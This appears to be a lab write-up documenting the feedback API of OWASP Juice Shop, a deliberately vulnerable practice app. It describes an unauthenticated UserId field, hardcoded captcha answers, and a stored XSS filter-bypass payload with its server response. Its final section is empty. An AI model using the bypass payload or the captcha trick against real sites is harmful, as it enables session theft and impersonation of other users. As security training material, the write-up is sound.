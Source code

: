 ## Description

Endpoint stores and displays customer feedback for juice shops.

## Connection Details

HTTP Methods: `GET,POST`
GET Parameters:
- `UserId`
- `id`
- `rating`
- `createdAt`
- `updatedAt`
- `comment`
POST Parameters: 
- `captchaId`
- `captcha`
- `comment`
- `rating`
- `UserId`
- `id`

### Sample Request
Request:
```HTTP
POST /api/Feedbacks/ HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Content-Type: application/json
Content-Length: 90

{"captchaId":2,"captcha":"6","comment":"*","rating":"*","UserId":"1"}
```

Response: 
```http
HTTP/1.1 201 Created
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Location: /api/Feedbacks/281
Content-Type: application/json; charset=utf-8
Content-Length: 154
ETag: W/"9a-KDEvG9n2O9diJshsCVoWFL2YP1E"
Vary: Accept-Encoding
Date: Tue, 20 Dec 2022 08:51:44 GMT
Connection: close

{"status":"success","data":{"id":281,"comment":"*","rating":"*","UserId":1,"updatedAt":"2022-12-20T08:51:44.603Z","createdAt":"2022-12-20T08:51:44.603Z"}}
```


## Parameters 

### `UserId`

#### Description

Set the `UserId` of a feedback entry. No validation or verification performed, but `UserId` required to be valid for an entry to be registered. Invalid `UserId` fails due to SQL Foreign Key constraint on the field. 

### `Comment`

#### Description

Contents are displayed at `/#/administration`, only accessible by an admin of the application. There seems to be a whitelist filter that only allows the following tags:
- `blockquote`
- `caption`
- `strike`
- `strong`
- `table`
- `tbody`
- `thread`
- `code`
- `div`
- `pre`
- `em`
- `a`
- `b`
- `i`
- `p`
- `br`
- `hr`
Injection point for stored XSS.



## Vulnerabilities

### Lack of Authentication (UserId)

#### Description
Unauthenticated user can submit feedback on behalf of any user. 

### Captcha bypass

#### Description
Captcha answers are hardcoded and answers can be pre-calculated. For instance, the answer to captcha with `captchaId: 2` is `6`. 

### Stored XSS in comment field
 
#### Exploit
```json
{
	"UserId":9,
	"captchaId":9,
	"captcha":"13",
	"comment":"<<i<>img src=x onerror=alert(1)>",
	"rating":2
}
```

Results in 
```json
{
	"status":"success",
	"data":{
		"id":527,
		"UserId":9,
		"comment":"<img src=x onerror=alert(1)>",
		"rating":2,
		"updatedAt":"2022-12-21T07:40:49.831Z",
		"createdAt":"2022-12-21T07:40:49.831Z"
	}
}
```

#### Impact
Stored XSS on admin user. 


## Possible Attack Vectors

### 


